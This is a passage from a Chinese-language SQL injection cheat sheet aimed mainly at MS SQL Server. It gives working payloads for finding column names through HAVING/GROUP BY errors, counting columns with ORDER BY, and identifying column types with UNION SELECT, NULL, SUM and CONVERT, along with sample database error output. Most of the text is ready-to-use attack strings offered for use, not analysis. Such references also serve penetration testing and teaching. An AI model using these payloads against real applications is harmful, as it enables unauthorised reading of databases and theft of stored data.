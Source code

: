 81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)

基于错误 – 探测列名

使用 HAVING 探测列名 – 基于错误（S）

顺序不分先后

‘ HAVING 1=1 —

‘ GROUP BY columnfromerror1 HAVING 1=1 —

‘ GROUP BY columnfromerror1, columnfromerror2 HAVING 1=1 —

‘ GROUP BY columnfromerror1, columnfromerror2,
columnfromerror(n) HAVING 1=1 — and so on

直到不再报错就完成了。

在 SELECT 查询中使用 ORDER BY 探测有多少个列（MSO+）

通过 ORDER BY 探测列数可以加快 UNION 注入的进度。

ORDER BY 1–
ORDER BY 2–
ORDER BY N– so on
持续操作直到出现错误，报错时使用的数字就是列数了。

数据类型、UNION 等

提示：

在使用 UNION 时总是搭配上 ALL，因为会存在相同值的字段，而缺省情况下，Union 都会尝试返回非重复的记录。

在查询的开始处，可以使用 -1 或者其他不存在的值来去除左侧表中非必须的记录（前提是注入点在 WHERE 语句里）。如果你一次只想取得一条记录，这是非常关键的点。

在对大多数数据类型的 UNION 注入中使用 NULL 代替猜测它是字符串、日期、整数等类型。

盲注的情况下，要注意判断错误时来自数据库还是来自应用程序本身。因为像 ASP.NET 或有其他语言，通常在使用 NULL 值的时候会抛出错误（因为开发者们一般没有想过用户名字段会出现 NULL）

获取列类型

‘ union select sum(columntofind) from users— （S）

Microsoft OLE DB Provider for ODBC Drivers error ‘80040e07’

[Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument.如果没有返回错误说明字段是数字类型（numeric）.

你也可以使用 CAST() 或者 CONVERT()

SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL–

11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-

没有错误 – 语法是对的。这是 MS SQL Server 的语法。继续。

11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-

没有错误 – 第一列是 integer 类型。

11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 —
